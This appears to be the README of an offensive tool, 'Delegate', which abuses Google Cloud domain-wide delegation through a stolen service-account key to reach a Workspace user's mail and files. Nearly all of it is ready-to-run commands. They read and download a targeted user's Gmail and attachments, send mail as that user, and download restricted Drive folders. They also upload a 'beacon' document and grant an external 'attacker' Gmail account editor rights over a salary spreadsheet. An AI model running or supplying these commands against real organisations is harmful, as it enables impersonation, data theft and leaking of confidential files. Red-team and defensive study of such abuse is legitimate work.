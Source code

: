 # Delegate
Tool to perform GCP Domain Wide Delegation abuse and access Gmail and Drive data from a compromised Service Account with domain wide delegation permissions configured within Google Workspace.

<img src="./DomainWideDelegation_GCP.png" alt="gcpdelegation" width="800"/>

## Delegate tool usage
#### Gmail usage
List all Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a list
```

Read Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read
```

List Gmail folders (Labels)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a folders
```

Download all attachments within the targeted Gmail (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a attachments
```

Read all emails within specified folder (Labels) (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read -f DRAFT
```

Send an email as targeted.delegated@mackinsoncloud.com to jdoe@gmail.com specifying subject and body email content
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a send -r jdoe@gmail.com -s "Test Messaage subject" -c "Hello this is a test email"
```

#### Drive usage

List all files and folders within the targeted Drive account
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a list
```

Download locally folder Restricted_documents using recursive option (-x)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -f Restricted_documents -x
```

Download locally a specific file secret.txt
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -t secret.txt
```

Upload files at user's Drive root folder (My Drive)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a upload -t ./beacon.docx
```

Upload files within specific user's Drive folder or organizational Shared Drive
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a upload -f Restricted_documents -t ./beacon.docx
```

Modify permissions on specific file or folder (Add external Gmail account with Editor permissions over the file/folder)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -f Restricted_documents -t Salary2023.xlsx -e attacker@gmail.com
```

Create shared link on specific file or folder for access
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -f Restricted_documents -t Salary2023.xlsx -l
```